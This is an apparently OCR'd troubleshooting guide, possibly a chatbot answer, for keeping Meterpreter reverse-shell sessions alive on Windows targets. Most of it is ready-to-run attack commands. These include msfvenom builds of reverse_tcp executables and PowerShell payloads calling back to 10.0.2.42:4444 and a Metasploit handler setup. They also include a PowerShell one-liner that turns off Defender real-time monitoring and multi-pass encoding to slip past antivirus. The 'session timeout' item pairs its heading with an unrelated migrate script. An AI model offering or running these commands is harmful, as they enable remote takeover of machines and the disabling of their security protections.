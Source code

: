 If your Meterpreter session keeps closing after execution, there are several potential reasons and fixes you can try:

### 1. **Check if the Payload is Being Blocked**
- **Windows Defender/Antivirus:** Modern Windows security features detect and kill Meterpreter payloads quickly.  
  **Fix:** Disable Defender or add exclusions:  
  ```
  powershell -ExecutionPolicy Bypass -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
  ```
- **Firewall:** Ensure Windows Firewall is not blocking the connection.

### 2. **Try a Different Payload Encoding**
- `shikata_ga_nai` is often flagged by AV. Try adding more layers of encoding:
  ```
  msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -i 5 -b "\x00" LHOST=10.0.2.42 -f exe > Desktop/Exploit.exe
  ```
  Increase the iterations (`-i 5`) to make it harder to detect.

### 3. **Use a Staged Payload**
If the payload is crashing immediately, try using a staged payload (`windows/meterpreter/reverse_tcp`) instead of a stageless one (`windows/meterpreter_reverse_tcp`):
  ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.42 LPORT=4444 -f exe > Exploit.exe
  ```

### 4. **Use an Alternative Listener Configuration**
Set up your Metasploit listener with:
  ```
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set LHOST 10.0.2.42
  set LPORT 4444
  set ExitOnSession false
  exploit -j
  ```

### 5. **Run Payload in Compatibility Mode**
On the target machine, try running `Exploit.exe` in **compatibility mode (Windows 7)** and with **admin privileges**.

### 6. **Check for Session Timeouts**
- Ensure your `session-timed-out` value isn't too low:
  ```
  set AutoRunScript post/windows/manage/migrate
  ```

### 7. **Use a Different Payload Format**
Instead of `.exe`, try encoding into a different format, like PowerShell or DLL:
  ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.42 LPORT=4444 -f psh-cmd > exploit.ps1
  ```
